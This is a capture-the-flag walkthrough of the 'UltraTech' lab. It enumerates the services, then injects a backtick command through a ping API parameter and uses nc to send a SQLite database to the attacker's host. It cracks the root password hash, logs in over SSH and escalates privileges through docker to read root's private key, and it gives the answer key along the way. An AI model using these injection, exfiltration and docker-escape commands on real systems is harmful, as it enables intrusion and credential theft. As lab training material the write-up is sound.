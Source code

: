 # UltraTech

## enumeration

```bash
nmap $IP -sV -sC -p8081
nmap $IP -sV -p- -oN nmap
```

ports:

- 8081 (Node.js)

- 31331 (Apache httpd)


### "Which software is using the port 8081"

==> **Node.js**


### "Which other non-standard port is used?"

==> **31331**


### "Which software is using this port?"

==> **Apache**


### "Which GNU/Linux distribution seems to be used?"

==> **Ubuntu**


## website
```bash
gobuster -u $IP:31331 -w /opt/wordlists/dirs/dsstorewordlist.txt # -> endpoints
```

Using Network Monitor in Browser -> $IP:8081/{ping,auth}

### "The software using the port 8081 is a REST api, how many of its routes are used by the web application?"

==> **2**


## exploitation

```bash
curl $IP:8081/ping?ip=$LOCALIP # -> output of ping command

curl $IP:8081/ping?ip='*' # -> utech.db.sqlite
```

### "There is a database lying around, what is its filename?"

==> **utech.db.sqlite**


```bash
# Terminal 1
COMMAND=`url_encode "nc $LOCALIP 1234 \< utech.db.sqlite"`
curl $IP:8081/ping?ip=\`$COMMAND\`

# Terminal 2
nc -lnvp 1234 > utech.db.sqlite

sqlite3 utech.db.sqlite
    .dump   # -> r00t:f357a0c52799563c7c7b76c1e7543a32
    .exit

echo f357a0c52799563c7c7b76c1e7543a32 > r00t.md5

hashcat -a0 -m0 -O r00t.md5 /opt/wordlists/passwords/rockyou.txt # -> n100906
```

### "What is the password associated with this hash?"

==> **n100906**


```bash
ssh r00t@$IP
# password: n100906
```

## privesc

```bash
# ssh r00t@$IP
groups # -> docker

docker images # -> bash
docker run -it -v /root:/roots bash
    cat /roots/.ssh/id_*
```

### "What are the first 9 characters of the root user's private SSH key?"

==> **MIIEogIBA**
